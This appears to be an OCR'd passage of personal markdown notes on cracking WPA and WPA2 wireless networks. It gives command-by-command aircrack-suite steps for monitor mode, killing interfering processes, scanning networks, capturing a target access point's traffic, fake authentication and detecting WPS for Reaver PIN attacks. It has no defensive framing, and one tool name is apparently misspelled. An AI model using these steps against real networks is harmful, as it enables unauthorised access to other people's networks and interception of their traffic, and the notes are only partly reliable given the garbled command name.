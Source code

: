 Now the attacker can try to take the handshake or inject something

---

**Cracking Wireless Networks WPA and WPA2** 

Check if it's in monitor mode
```sh
iwconfig
```

Start monitor mode
```sh
sudo airmon-ng start wlan0
```

Kill processes 
```sh
sudo airmon-ng check kill
```

List networks in the area
```sh
sudo airodump-ng wlan0
```
- Lists everything in the area it can reach

Capture data from specific network
```sh
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 11 --write test wlan0
```

Fake authentication
```sh
sudo airplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h <my-mac-adress> wlan0
```
- fakeauth - how long till it tries to re-authenticate (if you use 0 it will try every second)
- -a - mac address of the access point **BSSID**
- -h - my mac address 

**Important** - You should put your mac address into a notepad because you can't use ifconfig while in monitor mode

If there is an error it will give you another mac address to use, just copy and paste it into the previous command

The mac address should now show up on the specific target command, which is writing to test, that should still be running

---

**Reaver**

Reaver only works on routers and wifi with WPS enabled. It can connect without a password with an 8 digit pin

How do you know if WPS is enabled?
```sh
sudo wash --interface wlan0
```
